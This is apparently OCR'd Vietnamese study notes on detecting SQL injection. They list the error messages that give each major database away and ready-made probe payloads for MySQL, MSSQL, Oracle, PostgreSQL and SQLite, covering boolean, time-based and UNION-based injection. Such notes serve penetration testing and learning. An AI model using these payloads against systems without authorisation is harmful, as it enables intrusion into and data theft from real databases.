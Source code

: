 
1. Các phát hiện đối với mỗi loại db như kiểu SQL server thì có dấu hiệu gì

2. Ngoài thu thập dữ liệu từ db qua SQLi thì còn có thể làm được gì thêm 

1. Dấu hiệu chung để phát hiện SQLi

Ứng dụng trả về lỗi SQL (error-based), ví dụ:

MySQL: You have an error in your SQL syntax;

MSSQL: Unclosed quotation mark after the character string;

Oracle: ORA-00933: SQL command not properly ended

Ứng dụng trả về kết quả bất thường khi thêm ' OR 1=1 --.

Dữ liệu bị lọc hoặc thay đổi khi thêm ', ", --, #, ;.

Kết quả trả về chậm bất thường khi dùng payload kiểu Time-based (SLEEP(), WAITFOR DELAY, …).

Kết quả thay đổi khi chèn payload Union-based (UNION SELECT NULL,...).

🗄️ 2. Theo từng loại Database
2.1 MySQL

Ký tự nhạy cảm: ', ", --, #, /* */

Phát hiện bằng lỗi:

' OR '1'='1


→ Thường báo lỗi: You have an error in your SQL syntax.

Payload time-based:

' AND SLEEP(5) --+


Union-based test:

' UNION SELECT 1,2,3 --+

2.2 Microsoft SQL Server (MSSQL)

Ký tự nhạy cảm: ', ", --, ;

Lỗi thường thấy: Unclosed quotation mark after the character string.

Payload time-based:

' WAITFOR DELAY '0:0:5' --


Union test:

' UNION SELECT 1,@@version,db_name() --

2.3 Oracle

Ký tự nhạy cảm: ', --, /* */

Lỗi thường: ORA-01756: quoted string not properly terminated

Payload time-based:

' AND 1=DBMS_PIPE.RECEIVE_MESSAGE('a',5) --


Union test (Oracle bắt buộc phải FROM DUAL):

' UNION SELECT 'test' FROM DUAL --

2.4 PostgreSQL

Ký tự nhạy cảm: ', --, /* */

Lỗi thường: syntax error at or near

Payload time-based:

' OR pg_sleep(5) --


Union test:

' UNION SELECT version(), current_database() --

2.5 SQLite

Ký tự nhạy cảm: ', --, /* */

Lỗi thường: near "…" : syntax error

Payload test:

' OR 1=1 --


Time-based:

' OR randomblob(1000000000) --

